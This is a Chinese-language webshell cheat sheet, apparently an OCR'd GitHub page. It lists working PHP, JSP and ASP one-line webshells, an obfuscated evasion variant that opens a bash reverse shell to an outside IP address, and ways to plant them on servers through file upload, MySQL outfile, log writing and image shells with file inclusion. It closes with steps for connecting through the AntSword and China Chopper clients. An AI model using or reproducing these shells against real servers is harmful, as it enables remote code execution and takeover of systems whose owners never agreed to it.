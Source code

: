 ## **0x01. 一句话木马**
PHP一句话木马
可以在目标服务器上执行PHP代码,并和客户端(如菜刀、Cknife、冰蝎、蚁剑）配合getshell，俗称小马
^
php如果没有禁用一些函数
eval(x)      5<php<7.2默认开启
assert(x)   php<7.0默认开启
```
上传.php文件：
<?php eval('system(whoami);'); ?>
<?php eval($_GET[1]); ?>


PHP5.x版本中可以使用
<script language="php">@eval($_POST["pass"])</script>
<?= @eval($_POST['hack']); ?>


php5-7
<?php @eval($_POST['attack']);?>
<?php @eval($_POST['1']);?>
@错误不报
php5
<?php assert($_GET['1']); ?>


<?php 
error_reporting(0);//不报错
highlight_file(__FILE__);
var_dump($_REQUEST['1']);
eval($_REQUEST['1']);
 ?>
访问?1=system('ls /');

<?php echo phpinfo(); ?>
<?php system($_GET['2']);?>
```


^
```
jsp:
<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>

传x和i
<% if("x".equals(request.getParameter("pwd"))){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>");
} %>


一行
<% if("x".equals(request.getParameter("pwd"))){java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");} %>

免杀
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%
    Class clazz = com.sun.org.apache.xalan.internal.utils.ObjectFactory.findProviderClass("java.lang.Run" + "time", true);
    java.lang.reflect.Method m1 = com.sun.org.glassfish.gmbal.ManagedObjectManagerFactory.getMethod(clazz, "getRun"+"time", null);
    java.lang.reflect.Method m2 = com.sun.org.glassfish.gmbal.ManagedObjectManagerFactory.getMethod(clazz, "ex"+"ec", String[].class);
    Object o = com.sun.xml.internal.bind.v2.ClassFactory.create(m1);
    new com.sun.xml.internal.ws.spi.db.MethodSetter(m2).set(o,new String[]{"/bin/sh","-c","bash -i >& /dev/tcp/121.5.169.223/39767 0>&1"});
%>
```

```
asp:
<%eval request("cmd") %>
```
c#
aspx：<https://www.cnblogs.com/donglian1/p/13942742.html>

其他常见一句话木马：<https://www.cnblogs.com/ash-33/p/16397536.html>


^
## **0x02. 木马注入方式**

### **1**. 以文件的形式上传到服务器端
上传文件可以利用MySQL的into outfile、表单文件上传等方式上传

### **2**. 以字符串的形式上传到服务器端
通过MySQL的日志方式、shell的echo方式、命令执行、反序列化等方式写入一句话代码，可写入新文件或者已存在的页面

### **3**.图片马+文件包含漏洞
通过上传图片马，结合文件包含漏洞上传webshell;


^
## **0x03. getshell**
上传一句话木马后，找到文件上传的地址

1. 中国蚁剑
设置的入口为eval($_POST["密码"];);，必须为eval的post。
使用中国蚁剑，右击加链接，连接密码(POST参数名)
getshell
双击进行文件管理
右击可选择终端界面
蚁剑可配置代理查看每次请求包
^
2. 中国菜刀
设置的入口为assert($_GET),assert($_POST)。
